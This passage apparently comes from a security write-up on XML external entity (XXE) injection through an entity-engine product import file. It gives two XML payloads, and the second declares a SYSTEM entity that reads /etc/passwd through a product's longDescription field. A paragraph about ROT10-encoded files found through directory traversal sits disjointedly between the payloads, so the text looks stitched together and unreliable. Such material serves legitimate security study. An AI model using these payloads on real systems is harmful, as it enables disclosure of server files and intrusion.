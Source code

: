 ```
  <longDescription>This giant widget is mobile. It will seat one person safely. The wheels will never rust or break. Quite a unique item.</longDescription>
</Product>
```



XXE Payload:

```
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe "Vulnerable to XXE">
]>
<entity-engine-xml>
<Product createdStamp="2021-06-04 08:15:49.363" createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<longDescription>&xxe;</longDescription>
</Product>
</entity-engine-xml>
```




During one security engagement, we retrieved a file through directory traversal. However, the file content appeared encoded or encrypted. After closely examining the file, we noticed that every line started with an 'F' and every line ended with 'H'. These repeated characters reminded us of XML since every element starts with "<" and ends with ">". Based on this observation, we wrote a Python script that confirmed the data was ROT10 encoded, a variation of the more common, and equally insecure, ROT13.1

###### Updated XXE payload with external entity

```
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
<Product createdStamp="2021-06-04 08:15:49.363" createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<longDescription>&xxe;</longDescription>
</Product>
</entity-engine-xml>

```
